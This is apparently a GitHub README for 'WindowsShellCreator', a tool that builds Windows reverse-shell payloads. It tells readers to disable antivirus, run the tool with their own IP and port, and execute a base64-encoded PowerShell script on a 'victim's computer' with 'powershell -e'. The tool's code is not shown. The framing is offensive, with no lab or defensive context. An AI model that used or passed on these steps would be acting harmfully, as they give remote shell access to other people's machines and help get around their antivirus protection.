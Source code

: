 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H '```your device ip```' -p '```Choose your port number```' -b64 '```y/n```'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type``` powershell -e ```and paste the copied base64 script``` [e.g.powershell -e 'base64encode here'*] ```
